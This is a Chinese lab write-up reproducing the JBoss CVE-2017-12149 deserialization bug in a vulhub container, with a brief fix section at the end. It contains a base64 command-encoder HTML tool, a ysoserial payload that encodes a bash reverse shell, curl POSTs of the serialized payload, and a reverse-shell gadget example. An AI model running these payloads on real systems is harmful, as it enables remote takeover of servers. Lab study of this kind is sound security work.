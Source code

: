 ~~~~
title: 漏洞复现学习（jboss5.x/6.x）
tags: 
  - 渗透测试
  - 漏洞复现
  - 反序列化漏洞
  - (CVE-2017-12149)
categories: 
  - 渗透测试
  - 漏洞复现
  - (CVE-2017-12149)
~~~~



# JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）复现学习

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

**漏洞概要**

| **漏洞名称**             | JBOSSAS5.x/6.x反序列化命令执行漏洞 |
| ------------------------ | ---------------------------------- |
| **威胁类型**             | 远程命令执行                       |
| **威胁等级**             | 高                                 |
| **漏洞ID**               | CVE-2017-12149                     |
| **受影响系统及应用版本** | Jboss AS 5.xJbossAS 6.x            |

## 漏洞环境

~~~
https://github.com/vulhub/vulhub/tree/master/jboss/CVE-2017-12149
~~~

初始化

~~~
docker-compose up -d
~~~

初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

## 漏洞复现

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：

![image-20220329162810076](E:\学习\picture\image-20220329162810076.png)

### 编写反弹shell的命令

~~~~html
<!DOCTYPE html>
<html lang="en">
 <head> 
  <title>java.lang.Runtime.exec() Payload Workarounds - @Jackson_T</title> 
  <meta charset="utf-8" /> 
  <meta name="viewport" content="width=device-width, initial-scale=1.0" /> 
  <!-- <link rel="stylesheet" href="./css/main.css" type="text/css" /> --> 
  <style>
body {
	margin: 0;
	padding: 10px 0;
	text-align: center;
	font-family: 'Ubuntu Condensed', sans-serif;
	color: #585858;
  background-color: #fff;
	font-size: 13px;
	line-height: 1.4
}			
::selection {
	background: #fff2a8;
}
pre, code {
	font-family: 'Ubuntu Mono', 'Consolas', Monospace;
  font-size: 13px;
  background-color: #E5F5E5;
  color: #585858;
  padding-left: 0.25em;
  padding-right: 0.25em;
	/*display: block;*/
}		
#wrap {
	margin-left: 1em;
	margin-right: 1em;
	text-align: left;
	font-size: 13px;
	line-height: 1.4
}
	#wrap {
		width: 820px;
	}
	#container {
		float: right;
		width: 610px;
	}
.entry {
	font-size: 14px;
	line-height: 20px;
	hyphens: auto;
	font-family: 'Roboto', sans-serif, 'Inconsolata', Monospace;
}
</style> 
 </head> 
 <body> 
  <div id="wrap"> 
   <div id="container"> 
    <div class="entry"> 
     <article> 
      <p>偶尔有时命令执行有效负载<code>Runtime.getRuntime().exec()</code>失败. 使用 web shells, 反序列化漏洞或其他向量时可能会发生这种情况.</p> 
      <p>有时这是因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义. 例如 <code>ls &gt; dir_listing</code> 在shell中执行应该将当前目录的列表输出到名为的文件中 <code>dir_listing</code>. 但是在 <code>exec()</code> 函数的上下文中,该命令将被解释为获取 <code>&gt;</code> 和 <code>dir_listing</code> 目录.</p> 
      <p>其他时候,其中包含空格的参数会被StringTokenizer类破坏.该类将空格分割为命令字符串. 那样的东西 <code>ls &quot;My Directory&quot;</code> 会被解释为 <code>ls '&quot;My' 'Directory&quot;'</code>.</p> 
      <p>在Base64编码的帮助下, 下面的转换器可以帮助减少这些问题. 它可以通过调用Bash或PowerShell再次使管道和重定向更好,并且还确保参数中没有空格.</p> 
      <p>Input type: <input type="radio" id="bash" name="option" value="bash" onclick="processInput();" checked="" /><label for="bash">Bash</label> <input type="radio" id="powershell" name="option" value="powershell" onclick="processInput();" /><label for="powershell">PowerShell</label> <input type="radio" id="python" name="option" value="python" onclick="processInput();" /><label for="python">Python</label> <input type="radio" id="perl" name="option" value="perl" onclick="processInput();" /><label for="perl">Perl</label></p> 
      <p><textarea rows="10" style="width: 100%; box-sizing: border-box;" id="input" placeholder="Type input here..."></textarea> <textarea rows="5" style="width: 100%; box-sizing: border-box;" id="output" onclick="this.focus(); this.select();" readonly=""></textarea></p> 
      <script>
  var taInput = document.querySelector('textarea#input');
  var taOutput = document.querySelector('textarea#output');

  function processInput() {
    var option = document.querySelector('input[name="option"]:checked').value;

    switch (option) {
      case 'bash':
        taInput.placeholder = 'Type Bash here...'
        taOutput.value = 'bash -c {echo,' + btoa(taInput.value) + '}|{base64,-d}|{bash,-i}';
        break;
      case 'powershell':
        taInput.placeholder = 'Type PowerShell here...'
        poshInput = ''
        for (var i = 0; i < taInput.value.length; i++) { poshInput += taInput.value[i] + unescape("%00"); }
        taOutput.value = 'powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ' + btoa(poshInput);
        break;
      case 'python':
        taInput.placeholder = 'Type Python here...'
        taOutput.value = "python -c exec('" + btoa(taInput.value) + "'.decode('base64'))";
        break;
      case 'perl':
        taInput.placeholder = 'Type Perl here...'
        taOutput.value = "perl -MMIME::Base64 -e eval(decode_base64('" + btoa(taInput.value) + "'))";
        break;
      default:
        taOutput.value = ''
    }

    if (!taInput.value) taOutput.value = '';
  }

  taInput.addEventListener('input', processInput, false);
</script> 
     </article> 
    </div> 
   </div> 
  </div>  
 </body>
</html>
~~~~

通过上面的html进行bash

![image-20220329170648957](E:\学习\picture\image-20220329170648957.png)

### 序列化数据生成

使用[ysoserial](https://github.com/frohoff/ysoserial)来复现生成序列化数据，由于Vulhub使用的Java版本较新，所以选择使用的gadget是CommonsCollections5：

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1My4xMjgvMjEgMD4mMQ==}|{base64,-d}|{bash,-i}" > poc.ser
```

生成好的POC即为poc.ser

### 发送POC

**使用burp或者通过二进制的方式post发送攻击载荷**

- 通过二进制POST方式发送攻击载荷到 /invoker/readonly

~~~
curl http://172.18.174.198:8080/invoker/readonly --data-binary @poc.ser
~~~

![image-20220329165948680](E:\学习\picture\image-20220329165948680.png)

![image-20220329170451458](E:\学习\picture\image-20220329170451458.png)

- 通过burp 

  将这个文件作为POST Body发送至/invoker/readonly即可：

![image-20220329162235924](E:\学习\picture\image-20220329162235924.png)

![image-20220329172154807](E:\学习\picture\image-20220329172154807.png)

## JBoss反序列化工具一键检测：



![image-20220329161659115](E:\学习\picture\image-20220329161659115.png)

## **攻击方式**

攻击者只需要构造带有需要执行Payload的ser文件，然后使用curl将二进制文件提交至目标服务器的invoker/readonly页面中，即可执行Payload中指定的命令，获取对电脑的控制权。攻击示例代码如下：

**//编译预置payload的java文件**

javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

**//反弹shell的IP和端口**

java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap 1.1.1.1:6666

**//使用curl向/invoker/readonly提交payload**

curl http://192.268.197.25:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser

## **修复方法**

1. 不需要 http-invoker.sar 组件的用户可直接删除此组件。

2. 添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中，对 http invoker 组件进行访问控制：

   <url-pattern>/*</url-pattern>